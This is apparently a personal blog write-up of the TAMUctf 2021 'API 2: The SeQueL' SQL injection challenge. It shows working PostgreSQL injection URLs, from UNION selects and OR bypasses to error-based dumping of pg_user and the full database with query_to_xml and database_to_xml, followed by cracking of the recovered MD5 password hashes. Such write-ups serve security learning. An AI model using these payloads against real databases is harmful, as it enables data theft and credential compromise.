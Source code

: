 ```yaml
---
title: "TAMUctf 2021 API 2 : The SeQueL Solution"
slug: "api-2-the-sequel-writeup"
date: "2021-04-26 10:15:00.000000"
author_name: "Javantea"
author_email: "jvoss@altsci.com"
draft: false
toc: false
images:
---
```


TAMUctf 2021
[API 2 : The SeQueL](https://ctftime.org/task/15810) - 150 points

    I just made my own SCP collection website. What do you think?

This is a simple SQL injection (SQLi) challenge that taught me some new tricks for SQL injection exploitation. I should have known these already, but that is how these sort of things work.

The website appears to be referencing some sort of fiction with initialism SCP. Since it's sometimes helpful, we search for SCP and find this: [http://www.scpwiki.com/object-classes](http://www.scpwiki.com/object-classes)

Our first SQLi that gives us something interesting using a simple `UNION`:

https://shell.tamuctf.com/problem/50034/?name=Cone%27%20union%20select%20%271%27,%272%27,%273%27,%274%27,%275

Improved SQLi with a valid containment:

https://shell.tamuctf.com/problem/50034/?name=Cone%27%20union%20select%20%271%27,%272%27,%27neutralized%27,%274%27,%275

Improved containment:

https://shell.tamuctf.com/problem/50034/?name=Cone%27%20union%20select%20%271%27,%272%27,%27safe%27,%274%27,%275

Canonical SQLi is wrong because they use a %.

https://shell.tamuctf.com/problem/50034/?name=Cone%27%20or%20id=%271

pq: invalid input syntax for integer: "1%" 

That explains or '1'='1 problem I was having intially because '1' does not equal '1%'.

Now we can do a canonical SQLi:

https://shell.tamuctf.com/problem/50034/?name=Cone%27%20or%20%271%25%27=%271

Success

The website:

```
Codename : Default
ID : 1
SCP Containment : safe
default testing icon


Codename : Teddy
ID : 2
SCP Containment : euclid
To please the teddy, one must offer them a sacrifice of your finest tea


Codename : Traffic Cone #88192
ID : 3
SCP Containment : neutralized
We believe they appear from interdimensional rifts with no clear origin



Codename : Gnomial
ID : 4
SCP Containment : thaumiel
If encountered in the wild do not make eye contact. They only become more aggressive.


Codename : Ą̷̡̺̼̗͉̦̦̝̰̲͍͍͖͚̌̓̅̈͐̀̌̀̾̾͘̚̚̚͘̕d̴̻͓̫̭͎͙̮̲͖̭̖̬̦͉͗͒̈́̉̐͋͗̈́̑̄̉̍͑͘ͅd̸̛̙̮͚̩̦̘̗͛͛̓̂̀́̽̒͂͊́̚i̷̡̫͖͎͖͕͎͋̃̀̅̽̾͋͑̿́́͝͝ṡ̵̲̤̥̲̣͚̥̠̍ơ̸̼̒͊̏̅̀̽̿̊̅̈́͊̃̑̓͂͘ṅ̶̢̡͙̣̝̹͓̯̤͉̌̎͜ͅ
ID : 5
SCP Containment : apollyon
H̵̢̩̺̞̥̮̱̤̗̱̹͓̱͔͕̱̔̂̄̇̑̿̚͝Ė̵͍͔̈̂̑̃́̎̿͊͝͝ͅ ̴̢̛̣̦̽̃̿͠I̵̱͚͕͇̱̮͛͑̋́͐̔̓̑͂͘͠ͅS̷̪̝̲̫̝͙͓͒̇͂̍͗̍͐͜ ̷̪̹͕͙͍̭͎̖̺̘̈́̒̍Ȁ̷͚͇̘͓͓Ḽ̴̢̝̗̥̜̭̹̪͉͎̀̿̽R̴̛̗̾̌̂̌̉͊́͋̏E̷̛͉͍̫͆͂͐̍̏͆͒͊̌̚̕͜͝Ā̶̧̛̛̭̬͎̩̭̬̪̩̦̦͚͙̹̳̅̆͌̑͋̎̄͆̒͜͜ͅD̷̨̼̙̣̲̱͎̘̺͎͕̩͉̳̪̲͉̒̐͌̅͌͂͑͠Y̶̬͚̜̰͕̦̝̝͗͌͂͛́͊̈́̐̽̔͒̔͛͐̕͠ ̷͓͔͓̭̞̏̔́̄̋̍̎̽̎͒̈́́̇̊̕͠͠H̶̦̮̿̍͌̀̂̂͌̚̕Ẽ̶̢̛̦͖̖̪̖̬̜̭̄̎̋̎̄̓͒͌̄͌̽́̈R̷̨̢̡̨̖̩͈͖̺̤̳̜̼̱̭̩̤̈́̄̊̌̐̐̕̕͝ͅE̸̡̡̩͓͓̣̲̜͚̖̊̈́͊͒̓͘͜

```

https://shell.tamuctf.com/problem/50034/?name=A

So I am able to get every one individually and in a list..

From a quick web search I found the `version()` function which I should have known about. This tells us that we're working with PostgreSQL.

https://shell.tamuctf.com/problem/50034/?name=Cone%27%20union%20select%20%271%27,%20%272%27,%20%27safe%27,version(),%275

PostgreSQL 11.11 (Debian 11.11-0+deb10u1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 8.3.0-6) 8.3.0, 64-bit

All SQLi after here is now from this pretty cool SQLi write-up:
https://pulsesecurity.co.nz/articles/postgres-sqli


https://shell.tamuctf.com/problem/50034/?name=Cone%27%20union%20select%20%271%27,%20%272%27,%20%27safe%27,(CASE%20WHEN%20((SELECT%20CAST(CHR(32)||(SELECT%20query_to_xml(%27select%20*%20from%20pg_user%27,true,true,%27%27))%20AS%20NUMERIC)=%271%27))%20THEN%20%27a%27%20ELSE%20%27b%27%20END),%275

pq: invalid input syntax for type numeric: " <row xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"> <usename>postgres</usename> <usesysid>10</usesysid> <usecreatedb>true</usecreatedb> <usesuper>true</usesuper> <userepl>true</userepl> <usebypassrls>true</usebypassrls> <passwd>********</passwd> <valuntil xsi:nil="true"/> <useconfig xsi:nil="true"/> </row> <row xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"> <usename>yeetus</usename> <usesysid>16421</usesysid> <usecreatedb>false</usecreatedb> <usesuper>false</usesuper> <userepl>false</userepl> <usebypassrls>false</usebypassrls> <passwd>********</passwd> <valuntil xsi:nil="true"/> <useconfig xsi:nil="true"/> </row> " 

https://shell.tamuctf.com/problem/50034/?name=Cone%27%20union%20select%20%271%27,%20%272%27,%20%27safe%27,(CASE%20WHEN%20((SELECT%20CAST(CHR(32)||(SELECT%20database_to_xml(true,true,%27%27))%20AS%20NUMERIC)=%271%27))%20THEN%20%27a%27%20ELSE%20%27b%27%20END),%275

pq: invalid input syntax for type numeric: " <scpfoundation xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"> <public> <experiments> <id>1</id> <codename>Default</codename> <containment>safe</containment> <description>default testing icon</description> <img>avatar</img> </experiments> <experiments> <id>2</id> <codename>Teddy</codename> <containment>euclid</containment> <description>To please the teddy, one must offer them a sacrifice of your finest tea</description> <img>teddy</img> </experiments> <experiments> <id>3</id> <codename>Traffic Cone #88192</codename> <containment>neutralized</containment> <description>We believe they appear from interdimensional rifts with no clear origin</description> <img>cone</img> </experiments> <experiments> <id>4</id> <codename>Gnomial</codename> <containment>thaumiel</containment> <description>If encountered in the wild do not make eye contact. They only become more aggressive.</description> <img>gnome</img> </experiments> <experiments> <id>5</id> <codename>Ą̷̡̺̼̗͉̦̦̝̰̲͍͍͖͚̌̓̅̈͐̀̌̀̾̾͘̚̚̚͘̕d̴̻͓̫̭͎͙̮̲͖̭̖̬̦͉͗͒̈́̉̐͋͗̈́̑̄̉̍͑͘ͅd̸̛̙̮͚̩̦̘̗͛͛̓̂̀́̽̒͂͊́̚i̷̡̫͖͎͖͕͎͋̃̀̅̽̾͋͑̿́́͝͝ṡ̵̲̤̥̲̣͚̥̠̍ơ̸̼̒͊̏̅̀̽̿̊̅̈́͊̃̑̓͂͘ṅ̶̢̡͙̣̝̹͓̯̤͉̌̎͜ͅ</codename> <containment>apollyon</containment> <description>H̵̢̩̺̞̥̮̱̤̗̱̹͓̱͔͕̱̔̂̄̇̑̿̚͝Ė̵͍͔̈̂̑̃́̎̿͊͝͝ͅ ̴̢̛̣̦̽̃̿͠I̵̱͚͕͇̱̮͛͑̋́͐̔̓̑͂͘͠ͅS̷̪̝̲̫̝͙͓͒̇͂̍͗̍͐͜ ̷̪̹͕͙͍̭͎̖̺̘̈́̒̍Ȁ̷͚͇̘͓͓Ḽ̴̢̝̗̥̜̭̹̪͉͎̀̿̽R̴̛̗̾̌̂̌̉͊́͋̏E̷̛͉͍̫͆͂͐̍̏͆͒͊̌̚̕͜͝Ā̶̧̛̛̭̬͎̩̭̬̪̩̦̦͚͙̹̳̅̆͌̑͋̎̄͆̒͜͜ͅD̷̨̼̙̣̲̱͎̘̺͎͕̩͉̳̪̲͉̒̐͌̅͌͂͑͠Y̶̬͚̜̰͕̦̝̝͗͌͂͛́͊̈́̐̽̔͒̔͛͐̕͠ ̷͓͔͓̭̞̏̔́̄̋̍̎̽̎͒̈́́̇̊̕͠͠H̶̦̮̿̍͌̀̂̂͌̚̕Ẽ̶̢̛̦͖̖̪̖̬̜̭̄̎̋̎̄̓͒͌̄͌̽́̈R̷̨̢̡̨̖̩͈͖̺̤̳̜̼̱̭̩̤̈́̄̊̌̐̐̕̕͝ͅE̸̡̡̩͓͓̣̲̜͚̖̊̈́͊͒̓͘͜</description> <img>crump</img> </experiments> <users> <id>1</id> <name>glenn</name> <password>9651cbc7c0b5fb1a81f2858a07813c82</password> <status>Making More Challenges</status> </users> <users> <id>2</id> <name>teddy</name> <password>e2ec2b31abe380b989ff057aef66377a</password> <status>PWNing Away</status> </users> <users> <id>3</id> <name>admin</name> <password>gigem{SQL_1nj3ct1ons_c4n_b3_fun}</password> <status>Away on Vacation</status> </users> </public> </scpfoundation> "

We got the solution:

gigem{SQL_1nj3ct1ons_c4n_b3_fun}

We found two extra passwords:
glenn 9651cbc7c0b5fb1a81f2858a07813c82
teddy e2ec2b31abe380b989ff057aef66377a

Let's crack them just in case..

john --format=raw-md5 --rules --wordlist=crack/ai3words_order.txt ~/altsci/tamuctf/sqlpw.txt

No luck. Let's try google.

https://www.google.com/search?client=firefox-b-1-d&q=9651cbc7c0b5fb1a81f2858a07813c82

echo -n 'star trek' |md5sum 
9651cbc7c0b5fb1a81f2858a07813c82  -

The first password for glenn is 'star trek', cool.

https://www.google.com/search?q=e2ec2b31abe380b989ff057aef66377a&client=firefox-b-1-d&sxsrf=ALeKk005ipY2W_BV9BhG7w-HA46hrLO30g%3A1619338481194&ei=8SSFYPqXC4Gv0PEPl76aiAo&oq=e2ec2b31abe380b989ff057aef66377a&gs_lcp=Cgdnd3Mtd2l6EAM6CggjEK4CELADECdQvqMDWJixA2ClswNoAXAAeACAAWOIAekBkgEBNJgBAKABAqABAaoBB2d3cy13aXrIAQHAAQE&sclient=gws-wiz&ved=0ahUKEwi61MT3-ZjwAhWBFzQIHRefBqEQ4dUDCA0&uact=5

echo -n 'teddy bear' |md5sum 
e2ec2b31abe380b989ff057aef66377a  -

The first password for teddy is 'teddy bear', cool.

Change your passwords folks. Don't use simple passphrases.
